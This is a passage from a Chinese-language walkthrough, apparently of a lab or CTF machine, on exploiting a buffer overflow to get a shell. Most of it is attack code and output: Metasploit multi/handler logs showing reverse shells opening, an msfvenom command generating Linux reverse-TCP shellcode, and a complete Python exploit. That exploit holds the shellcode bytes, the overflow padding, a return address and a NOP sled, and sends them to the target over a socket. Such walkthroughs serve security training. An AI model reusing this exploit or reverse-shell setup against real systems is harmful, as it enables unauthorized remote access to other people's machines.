 3. `msf`根据生成`payload`进行监听，运行`payload`文件，成功获得`shell`
    
    ```c
    msf6 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 192.168.111.159:1234 
    [*] Command shell session 2 opened (192.168.111.159:1234 -> 192.168.111.154:63215) at 2024-12-18 15:47:13 +0800
    
    Shell Banner:
    Microsoft Windows [_ 10.0.18363.418]
    -----
              
    
    C:\Users\Administrator\Desktop>
    ```
    

## 利用缓冲区溢出漏洞

1. 刚刚在`windows`上测试成功，接下来要在目标主机上使用
2. 生成新的`shellcode`
    
    ```c
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.10 LPORT=1234 -b "\x00" -f python
    ```
    
3. 修改新的`payload`
    
    ```c
    import socket
    
    buf =  b""
    buf += b"\xbd\xd9\x9c\x86\x5c\xdb\xd7\xd9\x74\x24\xf4\x5e"
    buf += b"\x31\xc9\xb1\x12\x83\xc6\x04\x31\x6e\x0e\x03\xb7"
    buf += b"\x92\x64\xa9\x76\x70\x9f\xb1\x2b\xc5\x33\x5c\xc9"
    buf += b"\x40\x52\x10\xab\x9f\x15\xc2\x6a\x90\x29\x28\x0c"
    buf += b"\x99\x2c\x4b\x64\xda\x67\x93\x7e\xb2\x75\xe4\x7a"
    buf += b"\x90\xf3\x05\x32\x72\x54\x97\x61\xc8\x57\x9e\x64"
    buf += b"\xe3\xd8\xf2\x0e\x92\xf7\x81\xa6\x02\x27\x49\x54"
    buf += b"\xba\xbe\x76\xca\x6f\x48\x99\x5a\x84\x87\xda"                           
                                                        
    a = b'A' * 272 + b'\x77\x17\x58\x34' * 4 + b'\x90' * 32 + buf                                               
    s = socket.socket()                                 
    s.connect(('192.168.56.9',1985))        
    s.send(a)
    s.close()
    ```
    
4. `msf`根据`payload`进行监听，运行`python`文件
    
    ```c
    msf6 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 192.168.56.10:1234 
    [*] Command shell session 3 opened (192.168.56.10:1234 -> 192.168.56.9:44106) at 2024-12-18 15:54:53 +0800
    ```
    